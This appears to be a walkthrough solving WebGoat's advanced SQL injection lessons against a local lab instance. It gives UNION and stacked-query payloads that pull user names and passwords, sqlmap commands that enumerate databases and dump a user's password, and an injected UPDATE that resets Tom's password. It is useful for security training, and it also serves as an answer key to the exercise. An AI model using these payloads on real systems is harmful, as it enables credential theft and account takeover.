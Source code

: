 # (A1) SQL Injection (advanced)

## Lesson #3 - Try It! Pulling data from other tables
Retrieve all data from `user_system_data`
```sql
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);

CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

---
### Solution 1 - Using UNION
```
' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- 

==> Your query was: SELECT * FROM user_data WHERE last_name = '' UNION SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- '
```

### Solution 2 - Using new SQL statement
```
'; SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- 

==> Your query was: SELECT * FROM user_data WHERE last_name = ''; SELECT userid, user_name, password, cookie, null, null, null FROM user_system_data -- ' 
```

## Lesson #5
Can you login as Tom?

---

SQL injection vulnerability is in _Username_ field in the register form.
Registering username `Tom'` returns `"output" : "Something went wrong"`:
```
PUT http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge
username_reg=Tom'&email_reg=...

==> ERROR
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "Something went wrong"
}
``` 

Also, usernames such as `Tom' AND '1'='1` or `Tom' AND '2'='2` returns:
```
{
  "lessonCompleted" : false,
  "feedback" : "User Tom' AND '2'='2 already exists please try to register with a different username.",
  "output" : null
}
```

This hint us there's most likely a check before the user is inserted:
```sql
SELECT 1 FROM users WHERE username = [USERNAME];
```

### Step 1 - Diagnostics
Capture a raw single registration request (I used [OWASP ZAP](https://owasp.org/www-project-zap/))
and save it to a file [reg-request.txt](data/01-sqli/reg-request.txt):
```
PUT http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: */*
Accept-Language: cs,sk;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=neMKsCycQsJqGIPSavkwFwmbrF_0bNIambqrtrt5
Host: localhost:8080

username_reg=Tom&email_reg=qqq%40foo.bar&password_reg=qqq&confirm_password_reg=qqq
```

Let' see if [sqlmap](http://sqlmap.org/) can find some vulnerabilities:
```
$ sqlmap -r data/01-sqli/reg-request.txt
..
POST parameter 'username_reg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:
---
Parameter: username_reg (PUT)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username_reg=Tom' AND 5565=5565 AND 'dHUn'='dHUn&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: username_reg=Tom';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(9374),0),500000000),NULL)--&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq

    Type: AND/OR time-based blind
    Title: HSQLDB > 2.0 AND time-based blind (heavy query)
    Payload: username_reg=Tom' AND CHAR(121)||CHAR(78)||CHAR(82)||CHAR(65)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'tHuZ'='tHuZ&email_reg=qqq@foo.bar&password_reg=qqq&confirm_password_reg=qqq
```

Good, we found [boolean-based blind](https://github.com/sqlmapproject/sqlmap/wiki/Techniques)
SQL injection vulnerability.

Since we don't know the name of the _users_ table, let's start with enumerating all databases.

### Step 2 - Enumerate all databases

Run _sqlmap_ with `--dbs` to enumerate all databases:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 --dbs
# Run first without --no-cast to get total number of databases

$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 --dbs --no-cast
..
available databases [5]:
[*] CONTAINER
[*] container
[*] INFORMATION_SCHEMA
[*] PUBLIC
[*] SYSTEM_LOBS
```
See [sqlmap usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage) to understand all parameters.
Adding `--no-cast` was a result of trial & error.

Ok, let's look what's inside `PUBLIC` database.

### Step 3 - Enumerate tables in PUBLIC database

Run _sqlmap_ with `--D PUBLIC --tables` to enumerate all tables in `PUBLIC` database:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC --tables
# Run first without --no-escape to get total number of tables

$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC --tables --no-escape
..
Database: PUBLIC
[10 tables]
+-----------------------+
| CHALLENGE_USERS       |
| EMPLOYEES             |
| JWT_KEYS              |
| SALARIES              |
| SERVERS               |
| SQL_CHALLENGE_USERS   |
| USER_DATA             |
| USER_DATA_TAN         |
| USER_SYSTEM_DATA      |
| flyway_schema_history |
+-----------------------+
```
Adding `--no-escape` was a result of trial & error.

Nice, finally, let's dump `SQL_CHALLENGE_USERS`.

### Step 4a - Dump SQL_CHALLENGE_USERS
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC -T SQL_CHALLENGE_USERS --dump --where "USERID='tom'" --no-escape
..
+--------+-----------------+-------------------------+
| USERID | EMAIL           | PASSWORD                |
+--------+-----------------+-------------------------+
| tom    | tom@webgoat.org | thisisasecretfortomonly |
+--------+-----------------+-------------------------+
```

And the password is `thisisasecretfortomonly`

### Step 4b - Change Tom's password

Dump `SQL_CHALLENGE_USERS` columns:
```
$ sqlmap -r data/01-sqli/reg-request.txt -p username_reg -v 1 -D PUBLIC -T SQL_CHALLENGE_USERS --columns
Database: PUBLIC
Table: SQL_CHALLENGE_USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | EMAIL    |
| PASSWORD | PASSWORD |
| USERID   | USERID   |
+----------+----------+
```

Register a new user with the following username:
```
Tom'; UPDATE SQL_CHALLENGE_USERS set PASSWORD = 'hello555' WHERE USERID = 'tom'; --
```

Tom's password is `hello555` now.